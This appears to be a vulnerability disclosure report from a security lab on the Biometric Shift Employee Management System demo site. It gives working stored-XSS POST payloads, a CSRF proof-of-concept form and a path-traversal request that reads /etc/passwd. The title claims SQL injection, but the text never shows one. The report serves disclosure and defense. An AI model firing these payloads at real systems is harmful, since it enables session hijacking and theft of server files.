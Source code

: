 ### Biometric Shift Employee Management System- the lastest version - SQL Injection/Stored-XSS/CSRF/Arbitrary-File-Download

#### ADLab of Venustech

Well,  when I pentest the official demo site of Biometric Shift Employee Management System, I found some vulnerabilities here.

##### Stored-XSS 

#### XSS1

```
https://www.shiftsystems.net/demo/index.php?user=ajax
```

POST parameters:

```
SavedNewEmpData=&First_Name=52pojie&Last_Name=jack'"><img src=x onerror=prompt(/xss/)><'"&Email=test2@baidu.com&Gender=male&Password=asd123&Confirm_Password=asd123&Department=6&Emp_Code=123215
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss1.png)

#### XSS2

```
https://www.shiftsystems.net/demo/index.php?user=expenses
```

POST parameters:

```
employee_id=92&expense_name=%27%22%3E%3Cimg++src%3Dx+onerror%3Dalert%28%2Fxss2%2F%29%3E%3C%27%22&expense_desc=%27%22%3E%3Cimg++src%3Dx+onerror%3Dalert%28%2Fxss3%2F%29%3E%3C%27%22&amount=123213&date=12%2F12%2F2017&submit_expense=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss3.png)

#### XSS3

```
https://www.shiftsystems.net/demo/index.php?user=addition_deduction
```

POST parameters:

```
employee_code=1235&addition_type_id=1&amount=12312%27%22%3E%3Cimg+src%3Dx+onerror%3Dprompt%28%2Fxss4%2F%29%3E%3C%27%22&date=11%2F30%2F2017&submit_addition=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss4.png)

#### XSS4

```
https://www.shiftsystems.net/demo/index.php?user=competency_criteria
```
POST parameters:

```
category=&new_category=&criteria=defds%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28%2Fxss6%2F%29%3E%3C%27%22&target_score=45&edit_criteria_id=1&edit_criteria=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss6.png)

#### XSS5

```
https://www.shiftsystems.net/demo/index.php?user=edit_holiday&editid=x
```
POST parameters:

```
------WebKitFormBoundary52ESQlr0AU5OCjNc
Content-Disposition: form-data; name="holiday_name"

Holiday123'"><img src=x onerror=alert(7)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss7.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.shiftsystems.net/demo/index.php?user=edit_holiday&editid=1" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="setting&#95;ip" value="63892f9e5aa65f3adfaaf5a8e687507f5bdd7f218a71b3653ea84ad78752c0fcd9957622a18fc2e149675457d4f71df9b47242b13cfc624a0491d744da8aa3877d40a804eabd6c852abe72bb79a851e9a3d4c951d3945ca8be78d9901c81515d1d6e64d4f18943b8b25992d3c3bc4f19a5b0fde3c029ee79f4b3bc9c7553a92e0b5a6ffe875c56ae123e2961645949d5be0b9f16172&#46;96&#46;196&#46;108ChromeWindows&#32;10" />
      <input type="hidden" name="holiday&#95;name" value="Holiday123&apos;&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;&#47;xss7&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="date&#95;from" value="07&#45;09&#45;2017" />
      <input type="hidden" name="date&#95;to" value="23&#45;09&#45;2017" />
      <input type="hidden" name="description" value="suddnly&#32;My&#32;&#32;mom&#32;Is&#32;hospitelized&#32;So&#32;" />
      <input type="hidden" name="update&#95;holiday" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.


#### Arbitrary-File-Download

Weak link here:
```
https://www.shiftsystems.net/demo/index.php?user=download_form&form_file_name=../../../../../../../../../../../etc/passwd
```

Well, you can see,  we've download the passwd file now！


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/download.png)
